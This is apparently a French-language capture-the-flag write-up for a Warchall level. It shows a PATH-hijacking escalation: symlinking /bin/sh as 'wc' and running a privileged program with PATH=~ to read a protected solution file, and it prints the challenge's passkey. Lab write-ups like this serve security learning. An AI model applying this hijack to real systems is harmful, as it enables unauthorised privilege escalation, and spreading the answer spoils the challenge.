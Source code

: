 # 11_choose_your_patch2

1. création de liens symboliques pour exploiter les vulnérabilités: __ln -s /bin/sh ~/wc__

* Le fichier *"~/wc"* deviendra un lien symbolique pointant vers *"/bin/sh"*.
* Cela peut être utilisé pour créer un alias ou un raccourci vers le shell. Lorsqu'on exécute *"~/wc"*, cela équivaut à exécuter *"/bin/sh"*.
* *"-s"*: L'option qui indique à ln de créer un lien symbolique (au lieu d'un lien dur)

````sh
rantoo@warchall:/home/level/11_choose_your_path2$ ln -s /bin/sh ~/wc
````
2. Après, il faut trouver la solution possible pour lire le contenu de fichier *solution.txt*.
Donc, Ces commandes peuvent suffit pour effectuer notre objectif
````sh
rantoo@warchall:/home/level/11_choose_your_path2$ PATH=~ ./charp2 "/bin/cat solution.txt 1>&2"
````
* *PATH=~* : Cela modifie temporairement la variable d'environnement PATH pour inclure uniquement le répertoire courant, ce qui signifie que le système cherchera les exécutables uniquement dans le répertoire actuel.
* *./charp2* : C'est le fichier à executer
* */bin/cat solution.txt*: Cela semble être une tentative d'exécuter la commande cat avec solution.txt
* *1>&2* :  Cela redirige la sortie standard (stdout) vers la sortie d'erreur standard (stderr). Cela signifie que si cat affiche quelque chose à la sortie standard, cela apparaîtra sur la sortie d'erreur standard.

````sh
Counting /bin/cat solution.txt 1>&2 ...
wc: 0: cannot open /bin/cat solution.txt 1>&2: No such file
Cannot scan! Sorry!
Dear challenger,

The original solution.txt of this challenge got lost.

However, here is the new solution: CodingIsDamnHard3.

I have no real idea what it takes to solve this challenge,
so you are obviously a better cracker than me.

Do not forget to vote the challenge!

 - gizmore
 Cannot scan! Sorry!
Floating point exception
````
The passkey is : **CodingIsDamnHard3**
